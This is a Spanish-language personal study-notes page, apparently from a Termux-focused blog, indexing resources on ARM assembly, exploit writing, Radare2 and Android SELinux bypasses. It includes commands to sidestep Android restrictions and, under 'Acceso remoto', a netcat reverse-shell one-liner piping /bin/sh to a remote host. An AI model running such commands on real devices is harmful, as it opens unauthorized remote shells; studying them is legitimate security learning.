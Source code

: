 # Mis demonis en un solo lugar 


> [!WARNING]
> 


> [!NOTE]
> Mucho del mis imsobnios  vine de  la comunidad de ``@ivam3`` y sus subcriptores 

# C++

- [AprenderC++](https://www.learncpp.com)
- [GestionDeMemoria]()

**Modulos y funciones**
 
 - [...](https://en.cppreference.com)

> [!NOTE]
> La mayoría de los dispositivos Android funcionan con ARM 

# ROP 

# Assembly 

**Comnados**
 - [as](https://sourceware.org/binutils/docs/as/index.html#Top)  : 
 - [ld](https://sourceware.org/binutils/docs/ld/)  : 


- [Intoducion al los comceptos basicos de  ensamblaje arm](https://azeria-labs.com/writing-arm-assembly-part-1/) 


# Desarollo de  exploit `ARM` 

 [1](https://fuzzysecurity.com/tutorials/expDev/1.html) 
 [2](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) 

# [Radare2](https://book.rada.re/config/evars.html)

- **CLI**
    - `-d ` : 
- **Inter**
    - "iE"  : 
    - `bdi` : Punto de intrucsion
    - `pdda` : Comando para ver el ensamblado y el código fuente descompilado uno al lado del otro.
    - *Debug commands* 
        - `d `

**Plugings**

- `r2dec` : Descompilador 



# Android Ingenieria Inversa 



# Analisis binario 

**Comceptos basico**

- **Pila**

- **Registro**

- **Buffer** 
    - [Como funciona la memoria](http://progra.usm.cl/apunte/c/memoria.html) 




A partir de android 11 `selinux` implementó varias restricciones, la buena noticia es que muchas de ellas se pueden 'bypassear' sin necesidad de ser root ni haciendo uso de adb xD. El mismo restringe las llamadas al sistema



**Listar paquetes saltando protexion ** 

```sh
<<(pm list packages -3 --user 0 2>&1 < /dev/null )
``` 
```
PATH=$PREFIX/bin && /system/bin/pm list packages --user 0
```


- Desde un usuario con uid2000 se  puede torgar permiso  
```
am start --user 0 -a android.settings.action.MANAGE_OVERLAY_PERMISSION -d "package:com.termux.x11"
```

# Investigar 

- Si se logras ejecutar los binarios de ``/vendor/bin`` siendo usuario shell es posible escalar privilegios hasta el usuario ``system``. Mas informacion [aqui](https://t.me/Ivam3by_Cinderella/13/9867) 

# Pendientes 
---
*Aprender*
[](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
--- 

**Rever shell**

[Ejemplo](https://t.me/Ivam3by_Cinderella/13/9377)

--- 

**Acseso remoto**

```
rlwrap /system/bin/toybox nc serveo.net 65000
```

```
tali -n0 -f $TMPDIR/xD|/bin/sh -i 2>&1| nc <IP> <port> 1>$TMPDIR/xD  
```

---

**Hacer funcional `qemu-i386`  


```sh 
⊨ qemu-i386 ~/ch1.bin                                    ~/p/v/_posts
qemu-i386: Could not open '/lib/ld-linux.so.2': No such file or directory
```

**Referencia**

https://tldp.org/HOWTO/Glibc2-HOWTO-5.html

---


**Telegram**
https://t.me/Ivam3by_Cinderella/19953

# Foros que me llamaron la atencion 
[bypassing-root-detection](https://medium.com/@aimardcr/bypassing-root-detection-the-universal-way-2625712172e5) 
[BypassSelinux](https://klecko.github.io/posts/selinux-bypasses/) 
[](https://nelenkov.blogspot.com/2015/06/password-storage-in-android-m.html?m=1)
*Binary*
[Buscar numeros magicos](https://www.garykessler.net/library/file_sigs.html)

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}


